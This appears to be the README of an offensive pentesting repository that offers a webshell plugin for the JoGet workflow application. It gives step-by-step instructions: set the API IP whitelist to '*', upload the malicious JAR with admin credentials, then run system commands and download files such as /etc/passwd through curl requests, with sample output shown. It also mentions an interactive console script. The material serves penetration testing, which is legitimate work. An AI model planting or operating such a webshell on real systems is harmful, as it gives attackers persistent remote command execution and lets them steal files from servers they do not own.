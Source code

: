 # JoGet webshell plugin for RCE

<p align="center">
  A webshell plugin and interactive shell for pentesting JoGet application.
  <br>
  <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/JoGet-plugin-webshell">
  <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
  <br>
</p>

## Features

 - [x] Webshell plugin for JoGet.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine `?action=download`.

## Usage

**Requirements**: You need to have the credentials of the `admin` account of the JoGet instance.

### Step 1: Whitelist your IP in the API

First of all, you will need to whitelist your IP in the API (or put `*` to match every source IP). This will allow you to perform requests on the `/jw/web/json` endpoint.

 - **API Domain Whitelist**: `*`
 - **API IP Whitelist**: `*`

![](./.github/ip_whitelist_api.png)

### Step 2: Upload the webshell plugin

Go to "Manage plugins" page, at http://127.0.0.1:8000/jw/web/console/setting/plugin, and click on "Upload plugin":

![](./.github/manage_plugins_interface.png)

Then choose the JAR file of the webshell plugin and click on "Upload":

![](./.github/upload_a_plugin.png)

### Step 3.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service' --data "action=exec&cmd=id"
{"stdout":"uid=1000(tomcat) gid=1000(tomcat) groups=1000(tomcat),0(root),27(sudo)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

You can also access it by a GET request from a browser:

![](./.github/exec_code_web.png)

### Step 3.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
tomcat:x:1000:1000::/home/tomcat:/bin/sh
```

### Step 4: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/158264654-df612180-9de5-4b5b-b3a2-ad22ae05b889.mp4

## Development

If you need to compile this plugin, you can use the docker image provided in the [dev_env](./dev_env) folder. It recreates the [Joget Workflow Open Source](https://dev.joget.org/community/display/KBv6/Joget+Workflow+Open+Source) build environnement to build plugins.

Then if you need to test the plugin locally, you can start a JoGet instance with the official docker image like this:

```
docker run -d -p 8000:8080 --rm docker.io/jogetworkflow/joget-community
```

Don't forget to check `docker logs -f <container_id>` to see logs of the running JoGet instance. This is really useful for debugging, especially if you encounter a "[Missing requirement error while importing a plugin](./docs/Import-error.md)".

## References

 - https://dev.joget.org/community/display/KBv6/Guideline+for+developing+a+plugin

 - https://dev.joget.org/community/display/KBv6/Web+Service+Plugin

 - https://dev.joget.org/community/display/KBv4/Implement+Web+Service+or+Servlet+with+Plugin
 

 - **Useful links for debugging module import**
    + https://thecarlhall.wordpress.com/2012/01/19/understanding-the-unresolved-constraint-missing-resource-message-from-apache-felix/
    + https://thecarlhall.wordpress.com/2012/07/11/understanding-the-unresolved-constraint-missing-requirement-message-from-apache-felix-pt-2/ 
